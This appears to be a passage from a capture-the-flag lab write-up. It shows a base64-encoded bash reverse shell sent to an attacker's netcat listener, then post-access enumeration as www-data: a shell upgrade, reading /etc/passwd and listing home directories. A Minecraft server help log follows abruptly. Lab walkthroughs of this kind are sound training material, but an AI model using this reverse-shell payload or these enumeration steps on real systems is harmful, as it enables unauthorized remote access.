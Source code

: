 `cat reverse.txt | base64`

```jsx
L2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzEwLjIuMzcuMzcvMTEyMjIgMD4mMQo=
```

`nc -nlvp 11222`

```jsx
listening on [any] 11222 ...
```

![image.png](image%206.png)

**PAYLOAD:**

```jsx
echo 'L2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzEwLjIuMzcuMzcvMTEyMjIgMD4mMQo=' | base64 -d | bash
```

```jsx
listening on [any] 11222 ...
connect to [10.2.37.37] from (UNKNOWN) [10.10.192.95] 33174
bash: cannot set terminal process group (1122): Inappropriate ioctl for device
bash: no job control in this shell

www-data@cybercrafted:/var/www/admin$ whoami
www-data
www-data@cybercrafted:/var/www/admin$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@cybercrafted:/var/www/admin$ pwd
/var/www/admin
www-data@cybercrafted:/var/www/admin$ SHELL=/bin/bash script -q /dev/null
www-data@cybercrafted:/var/www/admin$ export TERM=xterm

www-data@cybercrafted:/var/www/admin$ cat /etc/passwd | grep '/bin/bash'
root:x:0:0:root:/root:/bin/bash
xxultimatecreeperxx:x:1001:1001:,,,:/home/xxultimatecreeperxx:/bin/bash
cybercrafted:x:1002:1002:,,,:/home/cybercrafted:/bin/bash

www-data@cybercrafted:/var/www/admin$ ls -lsa /home
total 16
4 drwxr-xr-x  4 root                root                4096 Jun 27  2021 .
4 drwxr-xr-x 24 root                root                4096 Sep 30  2021 ..
4 drwxr-x---  4 cybercrafted        cybercrafted        4096 Sep 12  2021 cybercrafted
4 drwxr-xr-x  5 xxultimatecreeperxx xxultimatecreeperxx 4096 Oct 15  2021 xxultimatecreeperxx

```

[12:58:13 INFO]: /tp: Teleports the given player (or yourself) to another player or coordinates
[12:58:13 INFO]: /unregister: 
[12:58:13 INFO]: /version: Gets the version of this server including any plugins in use
[12:58:13 INFO]: /weather: Changes the weather
[12:58:13 INFO]: /whitelist: Manages the list of players allowed to use this server
[12:58:13 INFO]: /xp: Gives the specified player a certain amount of experience. Specify <amount>L to give levels instead, with a negative amount resulting in taking levels.